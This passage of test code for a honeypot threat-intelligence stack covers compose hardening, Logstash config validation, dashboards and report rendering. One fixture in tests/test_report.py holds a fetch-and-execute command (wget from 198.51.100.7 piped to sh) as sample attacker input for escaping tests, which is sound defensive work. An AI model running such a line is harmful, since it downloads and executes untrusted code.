    walk(mapping)
    return out

FIELD_RE = re.compile(r"\b((?:event|source|destination|network|observer|cowrie|threat|ti)\.[a-z_]+(?:\.[a-z_]+)*)")

class ComposeTests(unittest.TestCase):
    def setUp(self):
        self.c = compose()
        self.services = self.c["services"]

    def test_expected_services(self):
        expected = {"cowrie", "filebeat", "logstash", "elasticsearch", "es-init", "kibana",
                    "kibana-init", "elastalert", "reporter", "tools"}
        self.assertEqual(expected, set(self.services))

    def test_honeypot_is_network_isolated(self):
        on_honeypot = [n for n, s in self.services.items() if "honeypot_net" in (s.get("networks") or [])]
        self.assertEqual(["cowrie"], on_honeypot, "only Cowrie may join honeypot_net")
        self.assertEqual(["honeypot_net"], list(self.services["cowrie"]["networks"]))
        for name, svc in self.services.items():
            if name != "cowrie":
                self.assertNotIn("honeypot_net", svc.get("networks") or [])

    def test_honeypot_is_hardened(self):
        cow = self.services["cowrie"]
        self.assertIn("ALL", cow["cap_drop"])
        self.assertIn("no-new-privileges:true", cow["security_opt"])
        self.assertIn("pids_limit", cow)
        self.assertIn("mem_limit", cow)
        # no host bind-mounts: only named volumes
        for v in cow["volumes"]:
            self.assertFalse(v.startswith(("./", "/", "C:", "~")), f"host path mounted into honeypot: {v}")

    def test_filebeat_mounts_honeypot_logs_read_only(self):
        mounts = [v for v in self.services["filebeat"]["volumes"] if v.startswith("cowrie-logs:")]
        self.assertEqual(1, len(mounts))
        self.assertTrue(mounts[0].endswith(":ro"), "Filebeat must mount the honeypot log volume read-only")

    def test_only_honeypot_ports_are_public(self):
        for name in ("elasticsearch", "kibana"):
            for p in self.services[name]["ports"]:
                self.assertTrue(str(p).startswith("127.0.0.1:"), f"{name} port {p} is not bound to localhost")
        self.assertNotIn("ports", self.services["logstash"])
        self.assertEqual(2, len(self.services["cowrie"]["ports"]))
        for name in ("filebeat", "elastalert", "reporter", "es-init", "kibana-init"):
            self.assertNotIn("ports", self.services[name], name)

    def test_security_is_enabled_in_elasticsearch(self):
        env = self.services["elasticsearch"]["environment"]
        self.assertEqual("true", str(env["xpack.security.enabled"]).lower())

    def test_compose_variables_exist_in_env_example(self):
        text = read("docker-compose.yml")
        used = set(re.findall(r"(?<!\$)\$\{([A-Z][A-Z0-9_]*)", text))
        missing = used - set(env_example_keys())
        self.assertFalse(missing, f"variables used in docker-compose.yml but absent from .env.example: {missing}")

    def test_every_required_secret_is_generated_by_setup(self):
        required = set(re.findall(r"\$\{([A-Z][A-Z0-9_]*):\?", read("docker-compose.yml")))
        setup = read("scripts/setup.ps1")
        generated = set(re.findall(r"'([A-Z][A-Z0-9_]+)'\s*=\s*\d+", setup))
        self.assertFalse(required - generated, f"required but never generated by setup.ps1: {required - generated}")
        for name in generated:
            self.assertIn(name, env_example_keys(), f"{name} generated by setup.ps1 but not in .env.example")
            self.assertEqual("", env_example_keys()[name], f"{name} must be empty in .env.example")

    def test_env_example_contains_no_secrets(self):
        for k, v in env_example_keys().items():
            if re.search(r"(PASSWORD|_KEY|API_KEY)$", k):
                self.assertEqual("", v, f"{k} must be blank in the committed template")

    def test_kibana_encryption_keys_are_long_enough_in_setup(self):
        setup = read("scripts/setup.ps1")
        for name in ("KIBANA_SECURITY_KEY", "KIBANA_ENCRYPTION_KEY", "KIBANA_REPORTING_KEY"):
            n = int(re.search(rf"'{name}'\s*=\s*(\d+)", setup).group(1))
            self.assertGreaterEqual(n, 32, f"{name} must be >= 32 chars")

class LogstashTests(unittest.TestCase):
    def setUp(self):
        self.conf = read("logstash/pipeline/logstash.conf")
        self.rb = read("logstash/ruby/ti_lib.rb")

    def test_braces_balanced(self):
        depth, i, n = 0, 0, len(self.conf)
        in_str = in_regex = False
        while i < n:
            ch = self.conf[i]
            if in_str:
                if ch == "\\":
                    i += 1
                elif ch == '"':
                    in_str = False
            elif in_regex:
                if ch == "\\":
                    i += 1
                elif ch == "/":
                    in_regex = False
            elif ch == "#":
                while i < n and self.conf[i] != "\n":
                    i += 1
            elif ch == '"':
                in_str = True
            elif ch == "/" and re.search(r"=~\s*$", self.conf[max(0, i - 6):i]):
                in_regex = True
            elif ch == "{":
                depth += 1
            elif ch == "}":
                depth -= 1
                self.assertGreaterEqual(depth, 0, f"unbalanced '}}' near offset {i}")
            i += 1
        self.assertEqual(0, depth, "unbalanced braces in logstash.conf")
        self.assertFalse(in_str, "unterminated string")

    def test_ruby_methods_called_from_pipeline_exist(self):
        called = set(re.findall(r"TI\.([a-z_]+)\(", self.conf))
        defined = set(re.findall(r"^\s+def ([a-z_?]+)", self.rb, re.M))
        self.assertTrue(called)
        self.assertFalse(called - defined, f"pipeline calls undefined TI methods: {called - defined}")

    def test_budget_providers_are_known(self):
        providers = set(re.findall(r"TI\.budget\(event, '([a-z]+)'\)", self.conf))
        known = set(re.findall(r"^\s+'([a-z]+)'\s*=>\s*\{ key:", self.rb, re.M))
        self.assertEqual({"abuse", "otx", "vt", "vtfile"}, providers)
        self.assertEqual(providers, known)

    def test_every_provider_ok_flag_is_checked_in_conf(self):
        for p in ("abuse", "otx", "vt", "vtfile"):
            self.assertIn(f"[@metadata][{p}_ok] == \"true\"", self.conf)

    def test_env_vars_are_supplied_by_compose(self):
        provided = set(compose()["services"]["logstash"]["environment"])
        used = set(re.findall(r"\$\{([A-Z][A-Z0-9_]*)", self.conf))
        used |= set(re.findall(r"ENV\['([A-Z][A-Z0-9_]*)'\]", self.rb))
        used |= set(re.findall(r"env_int\('([A-Z][A-Z0-9_]*)'", self.rb))
        used |= set(re.findall(r"(?:daily|per_min):\s*\['([A-Z][A-Z0-9_]*)'", self.rb))
        used |= set(re.findall(r"key:\s*'([A-Z][A-Z0-9_]*)'", self.rb))
        used -= {"TI_CACHE_MAX"}  # optional internal tunable with a safe default
        self.assertFalse(used - provided, f"Logstash reads env vars that compose does not pass: {used - provided}")

    def test_api_keys_only_come_from_environment(self):
        for header in re.findall(r'"(?:Key|X-OTX-API-KEY|x-apikey)"\s*=>\s*"([^"]*)"', self.conf):
            self.assertTrue(re.fullmatch(r"\$\{[A-Z_]+:\}", header), f"hard-coded header value: {header!r}")

    # Logstash REFUSES TO START a pipeline that contains an unknown plugin setting, so every
    # option used must exist in the plugin docs.  (Regression: tag_on_request_failure /
    # tag_on_json_failure were once used on the http filter but do not exist there.)
    # Option lists verified against the Elastic Logstash plugin reference.
    ALLOWED = {
        "http": {"url", "verb", "headers", "target_body", "target_headers", "body", "body_format", "query",
                 "connect_timeout", "socket_timeout", "request_timeout", "automatic_retries"},
        "geoip": {"source", "target", "ecs_compatibility", "default_database_type", "tag_on_failure", "database", "fields"},
        "date": {"match", "target", "tag_on_failure", "timezone"},
        "fingerprint": {"source", "concatenate_sources", "method", "target", "key"},
        "ruby": {"init", "code", "path", "script_params"},
        "elasticsearch": {"hosts", "user", "password", "index", "document_id", "action", "manage_template", "ilm_enabled"},
        "beats": {"port"},
        "stdout": {"codec"},
        "drop": set(),
    }

    def _blocks(self, plugin):
        """Yield the body text of each `plugin { ... }` block (brace matched, strings aware)."""
        for m in re.finditer(rf"(?<![\w\[])({plugin})\s*\{{", self.conf):
            i, depth, in_str = m.end(), 1, False
            while depth and i < len(self.conf):
                ch = self.conf[i]
                if in_str:
                    in_str = not (ch == '"' and self.conf[i - 1] != "\\")
                elif ch == '"':
                    in_str = True
                elif ch == "{":
                    depth += 1
                elif ch == "}":
                    depth -= 1
                i += 1
            yield self.conf[m.end():i - 1]

    def test_plugin_options_are_all_supported(self):
        seen = {}
        for plugin, allowed in self.ALLOWED.items():
            for body in self._blocks(plugin):
                scrubbed = re.sub(r"\{[^{}]*\}", "{}", re.sub(r'"[^"]*"', '""', body))  # drop hash/array bodies
                opts = set(re.findall(r"([a-z_]+)\s*=>", scrubbed))
                seen.setdefault(plugin, set()).update(opts)
                self.assertFalse(opts - allowed, f"{plugin} {{}} uses unsupported option(s): {opts - allowed}")
        self.assertIn("http", seen, "no http filter blocks found - parser broken?")
        self.assertIn("target_body", seen["http"])

    def test_http_filter_has_no_failure_tag_options(self):
        for opt in ("tag_on_request_failure", "tag_on_json_failure"):
            self.assertFalse(opt in self.conf, f"{opt} does not exist on the Logstash http filter")

    def test_only_documented_outbound_hosts(self):
        hosts = set(re.findall(r"https://([a-z.]+)/", self.conf))
        self.assertEqual({"api.abuseipdb.com", "otx.alienvault.com", "www.virustotal.com"}, hosts)

    def test_ti_never_sent_for_simulated_or_private_ips(self):
        # live lookups only under ti_mode == "live"; classify() sets that only for public, non-simulated IPs
        self.assertIn('[@metadata][ti_mode] == "live"', self.conf)
        self.assertIn("if simulated then 'demo'", self.rb)
        self.assertIn("elsif pub    then 'live'", self.rb)

    def test_severity_table_covers_simulated_event_ids(self):
        sev = set(re.findall(r"'(cowrie\.[a-z_.\-]+)'\s*=>\s*\d+", self.rb))
        rng = random.Random(3)
        events, _ = sim.generate(rng, 1500, 24, datetime(2026, 11, 12, tzinfo=timezone.utc))
        seen = {e["eventid"] for e in events}
        self.assertFalse(seen - sev, f"simulator emits event ids without a severity: {seen - sev}")

class ElasticAndKibanaTests(unittest.TestCase):
    def setUp(self):
        self.fields = template_fields()

    def test_template_basics(self):
        t = json.loads(read("elasticsearch/index-template.json"))
        self.assertEqual(["honeypot-cowrie-*"], t["index_patterns"])
        self.assertEqual("ip", self.fields["source.ip"])
        self.assertEqual("geo_point", self.fields["source.geo.location"])
        self.assertEqual("honeypot-retention", t["template"]["settings"]["index.lifecycle.name"])

    def test_dashboard_fields_exist_in_template(self):
        used = set()
        for obj in kibana_objects.all_objects():
            attrs = obj["attributes"]
            if obj["type"] == "visualization":
                state = json.loads(attrs["visState"])
                used |= {a["params"]["field"] for a in state["aggs"] if "field" in a["params"]}
            if obj["type"] == "search":
                used |= set(attrs["columns"])
            src = json.loads(attrs["kibanaSavedObjectMeta"]["searchSourceJSON"])
            query_no_values = re.sub(r'"[^"]*"', '""', src["query"]["query"])  # drop quoted VALUES (event ids)
            used |= set(FIELD_RE.findall(query_no_values))
        used.discard("@timestamp")
        self.assertTrue(used)
        self.assertFalse(used - set(self.fields), f"dashboard uses fields missing from the template: {used - set(self.fields)}")

    def test_aggregations_never_target_text_fields(self):
        for obj in kibana_objects.visualizations():
            state = json.loads(obj["attributes"]["visState"])
            for a in state["aggs"]:
                f = a["params"].get("field")
                if f and f != "@timestamp":
                    self.assertNotEqual("text", self.fields[f], f"{obj['id']}: aggregation on text field {f}")

    def test_ndjson_is_valid_and_dashboard_is_consistent(self):
        lines = kibana_objects.build_ndjson().strip().split("\n")
        objs = [json.loads(line) for line in lines]
        ids = [(o["type"], o["id"]) for o in objs]
        self.assertEqual(len(ids), len(set(ids)), "duplicate saved-object ids")
        vis_ids = {o["id"] for o in objs if o["type"] == "visualization"}
        dash = next(o for o in objs if o["type"] == "dashboard")
        refs = {r["id"] for r in dash["references"]}
        self.assertEqual(refs, {v for v, *_ in kibana_objects.LAYOUT})
        self.assertFalse(refs - vis_ids, "dashboard references a visualisation that is not defined")
        panels = json.loads(dash["attributes"]["panelsJSON"])
        self.assertEqual(len(refs), len(panels))

    def test_dashboard_panels_do_not_overlap_and_fit_grid(self):
        rects = [(x, y, w, h) for _, x, y, w, h in kibana_objects.LAYOUT]
        for x, y, w, h in rects:
            self.assertLessEqual(x + w, 48)
        for i, a in enumerate(rects):
            for b in rects[i + 1:]:
                overlap = a[0] < b[0] + b[2] and b[0] < a[0] + a[2] and a[1] < b[1] + b[3] and b[1] < a[1] + a[3]
                self.assertFalse(overlap, f"panels overlap: {a} / {b}")

    def test_required_visualisations_exist(self):
        ids = {o["id"] for o in kibana_objects.visualizations()}
        for needed in ("ti-vis-top-ips", "ti-vis-top-asns", "ti-vis-timeline", "ti-vis-ports",
                       "ti-vis-credentials", "ti-vis-commands", "ti-vis-mitre", "ti-vis-malware"):
            self.assertIn(needed, ids)

    def test_alert_rules(self):
        rules = sorted((ROOT / "elastalert" / "rules").glob("*.yaml"))
        self.assertGreaterEqual(len(rules), 4)
        for path in rules:
            r = yaml.safe_load(path.read_text(encoding="utf-8"))
            for key in ("name", "type", "index", "alert"):
                self.assertIn(key, r, f"{path.name}: missing {key}")
            used = set(r.get("alert_text_args", [])) | set(r.get("alert_subject_args", []))
            if r.get("query_key"):
                used.add(r["query_key"])
            self.assertFalse(used - set(self.fields), f"{path.name}: unknown fields {used - set(self.fields)}")
            placeholders = max([int(n) for n in re.findall(r"\{(\d+)\}", r.get("alert_text", ""))] + [-1]) + 1
            self.assertEqual(placeholders, len(r.get("alert_text_args", [])), f"{path.name}: alert_text placeholder count")

    def test_elastalert_template_has_placeholder_not_secret(self):
        t = read("elastalert/config.yaml.template")
        self.assertIn("__ES_PASSWORD__", t)
        cfg = yaml.safe_load(t.replace("__ES_PASSWORD__", "x"))
        self.assertEqual("ti_elastalert", cfg["es_username"])

class ToolsTests(unittest.TestCase):
    def test_simulator_is_deterministic_and_well_formed(self):
        now = datetime(2026, 11, 12, 12, 0, tzinfo=timezone.utc)
        a, _ = sim.generate(random.Random(11), 600, 12, now)
        b, _ = sim.generate(random.Random(11), 600, 12, now)
        self.assertEqual(a, b)
        self.assertGreaterEqual(len(a), 600)
        for e in a:
            for k in ("timestamp", "eventid", "src_ip", "session", "sensor"):
                self.assertIn(k, e)
            self.assertTrue(e["timestamp"].endswith("Z"))
        self.assertEqual(sorted(e["timestamp"] for e in a), [e["timestamp"] for e in a])

    def test_simulator_uses_only_non_routable_malware_hosts(self):
        events, _ = sim.generate(random.Random(5), 3000, 24, datetime.now(timezone.utc))
        urls = [e["url"] for e in events if e.get("url")]
        self.assertTrue(urls)
        for u in urls:
            host = re.match(r"https?://([^/:]+)", u).group(1)
            self.assertTrue(host.startswith("198.51.100.") or host.endswith(".invalid"), f"real-looking host: {host}")

    def test_simulator_cli_writes_ndjson(self):
        with tempfile.TemporaryDirectory() as d:
            out = os.path.join(d, "simulated.json")
            subprocess.run([sys.executable, "-I", str(ROOT / "tools" / "simulate_attacks.py"),
                            "--events", "200", "--hours", "2", "--seed", "1", "--out", out],
                           check=True, capture_output=True, text=True)
            with open(out, encoding="utf-8") as fh:
                rows = [json.loads(line) for line in fh]
        self.assertGreaterEqual(len(rows), 200)

    def test_all_python_compiles(self):
        for p in list((ROOT / "tools").glob("*.py")) + list((ROOT / "tests").glob("*.py")):
            compile(p.read_text(encoding="utf-8"), str(p), "exec")

class WindowsLauncherTests(unittest.TestCase):
    def test_launchers_are_ascii_and_reference_existing_scripts(self):
        files = list(ROOT.glob("*.bat")) + list((ROOT / "scripts").glob("*.ps1"))
        self.assertGreaterEqual(len(files), 12)
        for p in files:
            raw = p.read_bytes()
            raw.decode("ascii")  # raises if a non-ASCII char would be mangled by PowerShell 5.1 / cmd
        for bat in ROOT.glob("*.bat"):
            for ref in re.findall(r"scripts\\([A-Za-z\-]+\.ps1)", bat.read_text()):
                self.assertTrue((ROOT / "scripts" / ref).exists(), f"{bat.name} -> missing scripts/{ref}")

    def test_batch_files_are_complete(self):
        for bat in ROOT.glob("*.bat"):
            t = bat.read_text()
            self.assertTrue(t.lstrip().lower().startswith("@echo off"), bat.name)
            self.assertEqual(t.count("("), t.count(")") + t.count("^("), bat.name + ": unbalanced parentheses (truncated file?)")
            self.assertNotRegex(t.rstrip().splitlines()[-1], r"\(\s*$", bat.name + ": ends inside an open command")

    def test_uses_compose_v2_syntax_and_no_pipes_to_unix_tools(self):
        for p in list(ROOT.glob("*.bat")) + list((ROOT / "scripts").glob("*.ps1")):
            t = p.read_text()
            self.assertNotIn("docker-compose ", t, f"{p.name}: use 'docker compose' (v2)")
            self.assertNotRegex(t, r"\|\s*(grep|sed|awk|tr)\b", f"{p.name}: Unix-only tool used on Windows")

    def test_no_secrets_committed_in_text_files(self):
        """Scan everything that WOULD be committed. Generated, git-ignored files that legitimately
        hold secrets (.env, elastalert/config.yaml) are skipped; a hit never prints the secret."""
        pattern = re.compile(r"(?i)(api[_-]?key|password|secret|token)\s*[:=]\s*[\"']?([A-Za-z0-9]{24,})")
        generated = {".env", "elastalert/config.yaml"}
        checked = 0
        for p in ROOT.rglob("*"):
            rel = p.relative_to(ROOT).as_posix()
            if not p.is_file() or p.suffix in {".pyc", ".pdf"} or "__pycache__" in p.parts:
                continue
            if rel in generated or (p.name.startswith(".env") and p.name != ".env.example"):
                continue
            if p.name == "test_project.py":
                continue
            checked += 1
            m = pattern.search(p.read_text(encoding="utf-8", errors="ignore"))
            self.assertIsNone(m, f"possible hard-coded secret in {rel} (value not shown)")
        self.assertGreater(checked, 30)

    def test_gitignore_protects_generated_secret_files(self):
        ignored = read(".gitignore").splitlines()
        for needed in (".env", "elastalert/config.yaml"):
            self.assertIn(needed, ignored, f"{needed} holds secrets and must be git-ignored")

class HuntingQueryTests(unittest.TestCase):
    """kibana/kql_filters.txt and kibana/dsl/*.json must only use fields that exist in the template."""

    def setUp(self):
        self.fields = template_fields()

    def _dsl_fields(self, node, found):
        if isinstance(node, dict):
            for k, v in node.items():
                if k in ("field",) and isinstance(v, str):
                    found.add(v)
                elif k in ("term", "terms", "range", "exists", "match") and isinstance(v, dict):
                    found.update(f for f in v if f not in ("boost", "field", "size", "order", "min_doc_count", "max_doc_count"))
                elif k == "_source" and isinstance(v, list):
                    found.update(v)
                elif k == "sort" and isinstance(v, list):
                    for item in v:
                        if isinstance(item, dict):
                            found.update(item)
                self._dsl_fields(v, found)
        elif isinstance(node, list):
            for v in node:
                self._dsl_fields(v, found)

    def test_dsl_queries_are_valid_and_use_known_fields(self):
        files = sorted((ROOT / "kibana" / "dsl").glob("*.json"))
        self.assertGreaterEqual(len(files), 6)
        for path in files:
            body = json.loads(path.read_text(encoding="utf-8"))
            found = set()
            self._dsl_fields(body, found)
            found.discard("_count")
            unknown = {f for f in found if f not in self.fields and f != "@timestamp"}
            self.assertFalse(unknown, f"{path.name}: unknown fields {unknown}")
            self.assertIn("query", body, path.name)

    def test_dsl_aggregations_never_use_text_fields(self):
        for path in (ROOT / "kibana" / "dsl").glob("*.json"):
            text = path.read_text(encoding="utf-8")
            for f in re.findall(r'"field":\s*"([^"]+)"', text):
                if f != "@timestamp":
                    self.assertNotEqual("text", self.fields[f], f"{path.name}: aggregation on text field {f}")

    def test_kql_filters_use_known_fields(self):
        rows = [ln for ln in read("kibana/kql_filters.txt").splitlines() if ln.strip() and not ln.startswith("#")]
        self.assertGreaterEqual(len(rows), 10)
        names = set()
        for ln in rows:
            name, query = [x.strip() for x in ln.split("|", 1)]
            self.assertNotIn(name, names, f"duplicate KQL name {name}")
            names.add(name)
            bare = re.sub(r'"[^"]*"', '""', query)
            bare = re.sub(r"\*\w+\*", "*", bare)
            used = set(FIELD_RE.findall(bare))
            used |= {m for m in re.findall(r"\b(tags)\s*:", bare)}
            self.assertTrue(used, f"{name}: no field found - parser broken?")
            self.assertFalse(used - set(self.fields), f"{name}: unknown fields {used - set(self.fields)}")
            self.assertEqual(bare.count("("), bare.count(")"), f"{name}: unbalanced parentheses")

if __name__ == "__main__":
    unittest.main()
------------------------------------------------------------------------------
END OF FILE: tests/test_project.py
------------------------------------------------------------------------------

------------------------------------------------------------------------------
FILE: tests/test_report.py   (224 lines; non-ASCII characters shown as '?')
------------------------------------------------------------------------------
"""
Unit tests for tools/generate_report.py (no Elasticsearch needed - a fake client returns a
canned aggregation response shaped exactly like the real one).

Run:  python -m unittest discover -s tests -v        (from the project root)
"""
import csv
import os
import sys
import tempfile
import unittest
from datetime import datetime, timedelta, timezone

sys.path.insert(0, os.path.join(os.path.dirname(__file__), "..", "tools"))
import generate_report as gr  # noqa: E402

NOW = datetime(2026, 11, 12, 12, 0, tzinfo=timezone.utc)

def b(key, count, **subs):
    d = {"key": key, "doc_count": count}
    d.update(subs)
    return d

def terms(*buckets):
    return {"buckets": list(buckets)}

def val(v):
    return {"value": v}

def ip_bucket(ip, count, risk, country, org, verdict, abuse=None, tags=()):
    src = {"source": {"as": {"number": 64500}}, "ti": {"otx": {"pulse_count": len(tags), "tags": list(tags)}}}
    if abuse is not None:
        src["ti"]["abuseipdb"] = {"confidence_score": abuse}
    return b(ip, count, sessions=val(count // 3), max_risk=val(risk), ti_score=val(abuse or 0),
             country=terms(b(country, count)), asn_org=terms(b(org, count)), verdict=terms(b(verdict, count)),
             latest={"hits": {"hits": [{"_source": src}]}})

def canned_current():
    tl = [b(1_700_000_000_000 + i * 3_600_000, c, key_as_string=f"2026-11-12T{i:02d}:00:00.000Z")
          for i, c in enumerate([5, 10, 40, 120, 60, 30, 8, 3])]
    return {
        "hits": {"total": {"value": 276, "relation": "eq"}},
        "aggregations": {
            "actions": terms(b("cowrie.login.failed", 150), b("cowrie.login.success", 12), b("cowrie.command.input", 40),
                             b("cowrie.session.file_download", 6), b("cowrie.session.connect", 60)),
            "unique_ips": val(31), "sessions": val(60), "timeline": {"buckets": tl},
            "risk_levels": terms(b("low", 200), b("medium", 40), b("high", 24), b("critical", 12)),
            "top_ips_risk": terms(
                ip_bucket("198.51.100.10", 90, 94, "Netherlands", "Evil Hosting BV", "malicious", 98, ("mirai", "botnet")),
                ip_bucket("192.0.2.66", 20, 15, "United States", "Search Engine LLC", "benign", 5),
                ip_bucket("203.0.113.45", 30, 72, "Brazil", "Telecom SA", "suspicious", 40)),
            "top_ips_volume": terms(ip_bucket("198.51.100.10", 90, 94, "Netherlands", "Evil Hosting BV", "malicious", 98)),
            "countries": terms(b("Netherlands", 100, ips=val(5)), b("Brazil", 60, ips=val(9)), b("China", 40, ips=val(11))),
            "asns": terms(b("Evil Hosting BV", 100, ips=val(5), max_risk=val(94))),
            "ports": {"doc_count": 60, "t": terms(b(2222, 45), b(2223, 15))},
            "protocols": {"doc_count": 60, "t": terms(b("ssh", 45), b("telnet", 15))},
            "usernames": terms(b("root", 80), b("admin", 40)), "passwords": terms(b("123456", 50), b("admin", 30)),
            "credentials": terms(b("root:123456", 45), b("admin:admin", 20)),
            "commands": terms(b("uname -a", 20), b("cd /tmp; wget http://198.51.100.7/x86_64 | sh <evil> & `id`", 6)),
            "techniques": terms(b("T1110", 150, name=terms(b("Brute Force", 150))), b("T1098.004", 3, name=terms(b("SSH Authorized Keys", 3)))),
            "malware": terms(b("a" * 64, 6, urls=terms(b("http://198.51.100.7/x86_64", 6)), vt=val(41),
                               family=terms(b("trojan.mirai", 6)), ips=val(2))),
            "urls": terms(b("http://198.51.100.7/x86_64", 6)),
            "hassh": terms(b("c" * 32, 30, client=terms(b("SSH-2.0-libssh_0.9.6", 30)), ips=val(8))),
            "verdicts": terms(b("malicious", 120, ips=val(6)), b("benign", 20, ips=val(1))),
            "otx_tags": terms(b("mirai", 100), b("botnet", 90)),
            "malicious_ips": {"doc_count": 120, "ips": val(6)},
            "high_risk": {"doc_count": 36, "ips": val(7)},
            "simulated": {"doc_count": 276},
        },
    }

def canned_previous():
    return {"hits": {"total": {"value": 200}},
            "aggregations": {"unique_ips": val(25), "high_risk": {"doc_count": 30},
                             "malicious_ips": {"doc_count": 80, "ips": val(4)}}}

class FakeES:
    def __init__(self):
        self.calls = []

    def search(self, **kw):
        self.calls.append(kw)
        return canned_current() if len(self.calls) == 1 else canned_previous()

class ReportTests(unittest.TestCase):
    def setUp(self):
        self.es = FakeES()
        self.report = gr.ElasticsearchSource(self.es).fetch(24, now=NOW)

    # ---- query layer
    def test_queries_use_correct_windows_and_filters(self):
        cur, prev = self.es.calls
        rng = cur["query"]["bool"]["filter"][0]["range"]["@timestamp"]
        self.assertEqual(rng, {"gte": "2026-11-11T12:00:00.000Z", "lt": "2026-11-12T12:00:00.000Z"})
        prng = prev["query"]["bool"]["filter"][0]["range"]["@timestamp"]
        self.assertEqual(prng["lt"], rng["gte"])            # previous window ends where current begins
        self.assertEqual(cur["size"], 0)
        self.assertNotIn("must_not", cur["query"]["bool"])

    def test_exclude_simulated_adds_must_not(self):
        q = gr.build_query(NOW - timedelta(hours=1), NOW, exclude_simulated=True)
        self.assertEqual(q["bool"]["must_not"], [{"term": {"tags": "simulated"}}])

    def test_aggs_are_json_serialisable_and_named(self):
        import json
        aggs = gr.build_aggs(NOW - timedelta(hours=24), NOW)
        json.dumps(aggs)
        for name in ("timeline", "top_ips_risk", "malware", "credentials", "commands", "techniques", "high_risk"):
            self.assertIn(name, aggs)
        self.assertEqual(aggs["timeline"]["date_histogram"]["fixed_interval"], "1h")
        self.assertEqual(aggs["top_ips_risk"]["terms"]["order"], {"max_risk": "desc"})

    # ---- parse layer
    def test_totals_and_deltas(self):
        t = self.report["totals"]
        self.assertEqual((t["events"], t["unique_ips"], t["sessions"]), (276, 31, 60))
        self.assertEqual((t["login_failed"], t["login_success"], t["login_attempts"]), (150, 12, 162))
        self.assertEqual((t["downloads"], t["high_risk_events"], t["critical_events"], t["malicious_ips"]), (6, 36, 12, 6))
        self.assertEqual(self.report["deltas"]["unique_ips"], 24.0)       # 25 -> 31
        self.assertEqual(self.report["deltas"]["high_risk_events"], 20.0)  # 30 -> 36
        self.assertEqual(self.report["threat_level"], "CRITICAL")

    def test_threat_level_ladder(self):
        base = dict(critical_events=0, high_risk_events=0, login_success=0)
        self.assertEqual(gr.threat_level(base), "LOW")
        self.assertEqual(gr.threat_level({**base, "login_success": 1}), "MEDIUM")
        self.assertEqual(gr.threat_level({**base, "high_risk_events": 1}), "HIGH")
        self.assertEqual(gr.threat_level({**base, "critical_events": 1}), "CRITICAL")

    def test_ip_rows(self):
        top = self.report["top_ips_risk"][0]
        self.assertEqual((top["ip"], top["max_risk"], top["verdict"], top["abuse_score"]), ("198.51.100.10", 94, "malicious", 98))
        self.assertEqual(top["tags"], ["mirai", "botnet"])
        self.assertEqual(top["asn"], 64500)

    def test_blocklist_excludes_benign_false_positives(self):
        bl = gr.blocklist(self.report)
        self.assertIn("198.51.100.10", bl)
        self.assertIn("203.0.113.45", bl)
        self.assertNotIn("192.0.2.66", bl)

    def test_division_by_zero_safe_when_no_previous(self):
        self.assertIsNone(gr.pct_change(5, 0))

    def test_empty_period_produces_valid_report(self):
        empty = {"hits": {"total": {"value": 0}}, "aggregations": {}}
        rep = gr.parse_report(empty, empty, NOW - timedelta(hours=24), NOW, 24, False)
        self.assertEqual(rep["threat_level"], "LOW")
        self.assertTrue(rep["recommendations"])
        with tempfile.TemporaryDirectory() as d:
            files = gr.write_reports(rep, d, ["md", "html", "pdf"], "t")
            for f in files:
                if f.endswith(".txt"):          # an empty blocklist is the correct result for an empty period
                    self.assertEqual(os.path.getsize(f), 0)
                else:
                    self.assertGreater(os.path.getsize(f), 0, f)

    # ---- presentation layer
    def test_markdown_escapes_pipes_and_backticks(self):
        md = gr.render_markdown(self.report)
        self.assertIn("# Threat Intelligence Report", md)
        self.assertIn("**Overall threat level:** **CRITICAL**", md)
        self.assertNotIn("| cd /tmp; wget http://198.51.100.7/x86_64 | sh", md)   # raw pipe would break the table
        self.assertIn("\\|", md)

    def test_html_escapes_attacker_controlled_strings(self):
        h = gr.render_html(self.report)
        self.assertNotIn("<evil>", h)           # command text must be escaped (stored-XSS guard)
        self.assertIn("&lt;evil&gt;", h)
        self.assertIn("<svg", h)
        self.assertIn("Demo data", h)           # simulated banner

    def test_pdf_is_valid(self):
        with tempfile.TemporaryDirectory() as d:
            p = os.path.join(d, "r.pdf")
            gr.render_pdf(self.report, p)
            with open(p, "rb") as fh:
                self.assertEqual(fh.read(5), b"%PDF-")
            self.assertGreater(os.path.getsize(p), 5000)

    def test_exports(self):
        with tempfile.TemporaryDirectory() as d:
            files = gr.write_reports(self.report, d, ["md"], "stamp")
            csv_path = [f for f in files if f.endswith(".csv")][0]
            with open(csv_path, encoding="utf-8") as fh:
                rows = list(csv.DictReader(fh))
            self.assertEqual({r["type"] for r in rows}, {"ipv4", "sha256", "url"})
            with open([f for f in files if f.endswith(".txt")][0], encoding="utf-8") as fh:
                txt = fh.read().split()
            self.assertEqual(txt, ["198.51.100.10", "203.0.113.45"])

    def test_unicode_commands_do_not_crash_pdf(self):
        rep = gr.ElasticsearchSource(FakeES()).fetch(24, now=NOW)
        rep["commands"].append({"key": "echo ? ??", "count": 1})
        with tempfile.TemporaryDirectory() as d:
            gr.render_pdf(rep, os.path.join(d, "u.pdf"))

    # ---- automation layer
    def test_scheduler_next_run(self):
        from zoneinfo import ZoneInfo
        tz = ZoneInfo("Asia/Kolkata")
        now = datetime(2026, 11, 12, 6, 0, tzinfo=tz)
        self.assertEqual(gr.seconds_until("07:00", "Asia/Kolkata", now), 3600)
        now = datetime(2026, 11, 12, 8, 0, tzinfo=tz)
        self.assertEqual(gr.seconds_until("07:00", "Asia/Kolkata", now), 23 * 3600)

    def test_cli_args(self):
        a = gr.parse_args(["--hours", "6", "--formats", "md,pdf", "--exclude-simulated"])
        self.assertEqual((a.hours, a.formats, a.exclude_simulated), (6, ["md", "pdf"], True))
        with self.assertRaises(SystemExit):
            gr.parse_args(["--formats", "docx"])

if __name__ == "__main__":
    unittest.main()
------------------------------------------------------------------------------
END OF FILE: tests/test_report.py
------------------------------------------------------------------------------

------------------------------------------------------------------------------
FILE: tests/test_ti_lib.rb   (226 lines)
------------------------------------------------------------------------------
# frozen_string_literal: true
# Unit tests for logstash/ruby/ti_lib.rb using a tiny stand-in for LogStash::Event.
# Run:  ruby tests/test_ti_lib.rb     (needs only a stock Ruby >= 2.7)
require 'minitest/autorun'
require_relative '../logstash/ruby/ti_lib'

class FakeEvent
  def initialize(h = {})
    @data = {}
    h.each { |k, v| set(k, v) }
  end

  def to_h = @data

  def get(ref)
    path(ref).reduce(@data) { |m, k| m.is_a?(Hash) ? m[k] : nil }
  end

  def set(ref, value)
    keys = path(ref)
    last = keys.pop
    h = keys.reduce(@data) do |m, k|
      m[k] = {} unless m[k].is_a?(Hash)
      m[k]
    end
    h[last] = value
  end

